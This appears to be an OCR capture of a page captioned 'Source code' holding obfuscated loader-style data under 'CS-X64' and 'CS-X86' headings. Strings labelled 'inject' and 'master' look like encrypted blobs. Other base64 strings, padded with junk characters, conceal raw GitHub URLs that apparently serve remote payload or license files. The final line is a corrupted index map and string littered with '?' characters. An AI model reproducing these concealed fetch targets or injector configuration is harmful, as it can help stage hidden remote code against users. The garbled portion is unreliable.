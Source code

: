 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

masterFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBduQ==kubns

ewfzwFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGswA/Eg=trhes\



wefwefeTBfX3hEQjhiZUZDQmlSNnpZZ3RJN0k0aExTZmJXdFNuSm9KVDVQUUhEYnUzTlVzbmpaMlE=rthfbrd



jeasdaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL015dGVzdENvdW50LWVuZy90ZXN0L3JlZnMvaGVhZHMvbWFpbi9lbnRlc3Q=ergerf


gtrghrFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGswA/Eg=yuyh


gdfaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL015dGVzdENvdW50LWVuZy90ZXN0L3JlZnMvaGVhZHMvbWFpbi90Mw==hfgnf

a1b2c3aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3NlbWFydHBob3JlL2xpY2Vuc2UvcmVmcy9oZWFkcy9tYWluL3ZhbGlkLmRhdA==x9y8z7

gdsf38|??2???,p;6,??9;10,??8;14,?n;1?8,A????;22,a????;26,??o?;30???,m?;34,???C;38,????l???;42???,??d;4??6???,z???;5??0,V;5????4,??7;58,??.???;62?,F???;66,?3;70???,y;74??,h;????78,????n;82????,G;8????6,9??;90????,??x;94,????A;?9??8,???Y;102????,Q;1?06???,????R;??110,?j;????11???4,??J;118???,l;1???2????2,???v;?126,???1??;13?0,f??;1???3????4,3?;138,????G;14?2,w;?146??,G;??1?5????0,2???;|???hArp????C0????h9???6m??l???89Y???Nnx????ArAD???OwaU??iyo9?2T????m0l???1CD?5glZv???DdneV???z?wD5????Vl0??w7Uvz????.????9Y0?Fx?zn???3l??02yS???jBhi2????VnwB?fGB????PI9s9????rxf????ueAu????tuYB????Uw???QVqy??Rjw?Jjgz???vJzM2?lPH?zvT2??S1???wB5f???CVh??3???YfCG?r31wN??DDG??E4x2???=Ortghredt
